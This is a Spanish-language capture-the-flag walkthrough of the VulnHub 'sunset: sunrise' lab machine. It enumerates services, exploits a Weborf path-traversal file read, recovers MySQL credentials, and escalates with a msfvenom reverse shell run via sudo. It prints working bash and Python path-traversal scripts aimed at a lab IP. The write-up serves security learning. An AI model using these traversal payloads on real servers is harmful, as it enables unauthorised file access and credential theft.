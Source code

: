 #ctf-machine #vulnhub #easy-machine #linux [VulnhubLink](https://www.vulnhub.com/entry/sunset-sunrise,406/)

## Enumeración inicial
Como no conocemos la IP de la máquina víctima, realizamos un escaneo ARP con `arp-scan`:
![[Pasted image 20240905194641.png]]

Como vemos la IP de la máquina es la "192.168.159.153" ya que el OUI de la MAC es "00:0c" que corresponde a las máquinas que se importan en VMWare.

Lanzamos una traza ICMP con `ping` y como el valor de TTL=64 podemos decir que probablemente se trate de una máquina Linux, ya que suelen tener este valor de TTL:
![[Pasted image 20240905195053.png]]


### Nmap
Realizamos un escaneo con `nmap` para identificar los puertos TCP abiertos en la máquina:
![[Pasted image 20240905195158.png]]

Como vemos, hay 4 puertos abiertos, los puertos 22,80,3306 y 8080. 

Realizamos un segundo escaneo para identificar la versión y servicios que ejecutan estos puertos:
![[Pasted image 20240908155835.png]]![[Pasted image 20240908155852.png]]

Como vemos hay 2 servivios HTTP por el purto 80 y 8080. 

## Enumeración web
Si accedemos al puerto 8080 vemos la versión de "Weborf":
![[Pasted image 20240908161234.png]]

Por lo que si buscamos *exploits* de esta versión con `searchsploit`, encontramos:
![[Pasted image 20240908161326.png]]

Por lo que tenemos LFI:
![[Pasted image 20240908161432.png]]

> [!NOTE] He creado un pequeño *script* en "bash" para ir enumerando más cómodamente, se encuentra en: [[#Bash script]]

Por lo que si enumeramos el sistema no encontramos nada interesante así que he creado un pequeño script en Python para enumerar archivos ocultos por fuerza bruta:
![[Pasted image 20240908170449.png]]

>[!NOTE] El script de Python utilizado se encuentra en: [[#Python script]]


Como vemos hay un archivo ".mysql_history" en el directorio `/home/weborf/`. Por lo que si lo mostramos, obtenemos unas credenciales:
![[Pasted image 20240908170643.png]]

Por lo que si intentamos conectarnos mediante SSH, obtenemos acceso:
![[Pasted image 20240908170834.png]]

## Escalada de privilegios
Si nos conectamos a MySQL con las credenciales que hemos obtenido, podemos ver las credenciales de del usuario "sunrise" en la tabla user de la base de datos llamada "mysql":
![[Pasted image 20240908174627.png]]

Por lo que si intenamos migrar al usuario "sunrise" con esta credencial, obtenemos acceso:
![[Pasted image 20240908174723.png]]

Si accedemos a `/home/sunrise`, podemos visualizar la primera *flag*:
![[Pasted image 20240908174736.png]]

Si mostramos los permisos de nivel de *sudoers* del usuario "sunrise", vemos lo siguiente:
![[Pasted image 20240908174909.png]]

Este binario nos permite ejecutar programas de Windows por lo que podemos crear con `msfvenom` un archivo ".exe" malicioso que entable una *reverse* *shell*:
![[Pasted image 20240908180743.png]]

Una vez creado lo transferimos a la máquina víctima:
![[Pasted image 20240908180130.png]]
![[Pasted image 20240908180205.png]]

Y si lo ejecutamos con `sudo` mientras estamos en escucha con `nc` por el puerto 443, obtenemos una consola:
![[Pasted image 20240908180859.png]]
![[Pasted image 20240908180905.png]]

Por lo que si accedemos al directorio `/root`, podemos visualizar la *flag* final:
![[Pasted image 20240908181117.png]]

## Bash script
```bash
file="$1"

path="..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f.."
path="$path$(echo "$file" | sed 's/\//%2f/g')"
curl -s -X GET "http://192.168.159.153:8080/$path" | html2text
```

## Python script
```python
from concurrent.futures import ThreadPoolExecutor
from termcolor import colored
from pwn import *
import requests
import sys
import re
import signal

def sig_handler(sig, frame):
    print(colored("\n\n[!] Saliendo...\n\n",'red'))
    sys.exit(1)

signal.signal(signal.SIGINT, sig_handler)


arg1 = sys.argv[1]
dir = re.sub("/", "%2f", arg1)
yunk = ".." + "%2f.." * 12
url = f"http://192.168.159.153:8080/{yunk}{dir}"

files = None

with open("/usr/share/SecLists/Discovery/Web-Content/common.txt", 'r') as f:
    files = f.read().split('\n')

print("")
p1 = log.progress(f"Searching hidden files on {arg1}")
print("")


def try_dir(url, file, i):
    p1.status(str(round(i/len(files)*100, 2)) + " %")
     
    r = requests.get(url + file)
    if r.status_code != 404:
        print(colored('> ', 'yellow') + file)


with ThreadPoolExecutor(max_workers=20) as executor:
    executor.map(lambda file: try_dir(url, file,files.index(file)), files)
```


___
#local-file-inclusion #path-traversal #information-leakage #abusing-sudoers #web-enumeration 
___

